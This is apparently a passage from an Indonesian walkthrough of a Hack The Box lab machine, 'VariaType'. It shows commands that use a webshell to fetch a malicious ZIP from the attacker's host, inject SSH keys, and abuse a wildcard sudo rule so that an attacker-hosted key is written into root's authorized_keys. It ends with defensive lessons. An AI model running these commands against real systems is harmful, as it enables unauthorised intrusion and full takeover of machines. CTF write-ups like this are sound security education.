

Webshell kemudian digunakan untuk memerintahkan target mengunduh payload tersebut ke direktori yang diproses oleh scheduled task:

```bash
curl -I -b "PHPSESSID=q4da62f7c63pkeu0026dcrs8r4" \
    "http://portal.variatype.htb/files/shell.php?cmd=wget%20http://10.10.14.3/evil.zip%20/var/www/portal.variatype.htb/public/files/ev1l.zip" \
    --output hasil_rce.txt
```



Dengan payload sudah berada di lokasi yang tepat, tinggal menunggu scheduled job memprosesnya.

---

## Akses User dan Pengambilan Flag

Setelah menunggu beberapa saat, koneksi SSH dicoba menggunakan private key yang telah dibuat:

```bash
ssh -i steve_key steve@10.129.42.177
```



Koneksi berhasil terhubung tanpa meminta password — mengonfirmasi bahwa public key sudah tersuntikkan ke `authorized_keys` milik `steve`. User flag kemudian diambil:

```bash
cat ~/user.txt
```



---

## Enumerasi Privilege Escalation

Setelah mendapatkan shell SSH sebagai `steve`, enumerasi dilakukan untuk mencari jalur eskalasi privileges:

```bash
sudo -l
```



Hasil perintah mengungkap bahwa `steve` diizinkan menjalankan skrip Python tertentu sebagai root tanpa password:

```
(ALL) NOPASSWD: /usr/bin/python3 /opt/font-tools/install_validator.py *
```

Aturan `sudo` ini sangat menarik karena skrip menerima argumen tambahan (ditandai dengan `*`), membuka peluang penyalahgunaan melalui manipulasi input.

---

## Persiapan Akses Root

SSH key pair baru disiapkan khusus untuk akses root:

```bash
ssh-keygen -t ed25519 -f root_key -N "" -C "root_variatype"
```



Strategi yang direncanakan adalah memanfaatkan skrip Python yang berjalan dengan hak root untuk menulis isi `root_key.pub` ke dalam `/root/.ssh/authorized_keys`.

---

## Hosting Root Public Key

HTTP server disiapkan di mesin penyerang untuk melayani `root_key.pub`:

```bash
cd root
python3 handler_root.py
```



---

## Privilege Escalation ke Root

Dengan server aktif, eksploitasi final dijalankan — skrip Python yang dapat dieksekusi sebagai root dimanfaatkan untuk mengambil public key dan menulisnya ke `authorized_keys` milik root:

```bash
sudo /usr/bin/python3 /opt/font-tools/install_validator.py \
    http://10.10.14.3:9090/%2Froot%2F.ssh%2Fauthorized_keys
```



Koneksi SSH sebagai root langsung dicoba:

```bash
ssh -i root_key root@10.129.42.177
```



Root flag berhasil diambil:

```bash
cat root.txt
```



**Mesin VariaType berhasil dikuasai sepenuhnya.**

---

## Rangkuman Serangan

| Tahap | Teknik | Hasil |
|---|---|---|
| Reconnaissance | Nmap scan | Port 22, 80 ditemukan |
| Web Enumeration | ffuf subdomain scan + feroxbuster | `variatype.htb`, `portal.variatype.htb`, direktori `.git` ditemukan |
| Information Disclosure | Git repository exposure + `git-dumper` | Source code dan histori commit dapat diakses |
| Credential Harvesting | `git fsck` unreachable commit analysis | Kredensial `gitbot` ditemukan |
| File Read | Directory traversal via `download.php` | Konfirmasi user `steve` |
| RCE | CVE-2025-66034 — CDATA XML Injection + Arbitrary File Write | PHP webshell tertanam di web root |
| User Access | SSH key injection via malicious ZIP + scheduled job | Akses SSH sebagai `steve` + user flag |
| Privilege Escalation | Misconfigured `sudo` rule pada `install_validator.py` | Akses penuh sebagai `root` + root flag |

---

## Pelajaran yang Bisa Dipetik

- **Jangan pernah membiarkan direktori `.git` dapat diakses publik** di server produksi. Blokir akses ke direktori tersebut melalui konfigurasi web server.
- **Histori Git menyimpan segalanya** — menghapus kredensial dari kode terbaru tidak cukup. Gunakan `git filter-branch` atau `BFG Repo-Cleaner` untuk menghapus data sensitif secara permanen dari seluruh histori.
- **Validasi ketat pada setiap input yang diterima untuk pemrosesan file** sangat penting. Nama file, path output, dan konten XML harus disanitasi sebelum diproses oleh library pihak ketiga.
- **Aturan `sudo` harus dirumuskan seketat mungkin** — hindari penggunaan wildcard (`*`) yang memungkinkan injeksi argumen tidak terduga.
- **Scheduled task yang memproses file dari direktori yang dapat ditulis pengguna** menciptakan permukaan serangan yang sangat berbahaya dan harus diisolasi dengan ketat.
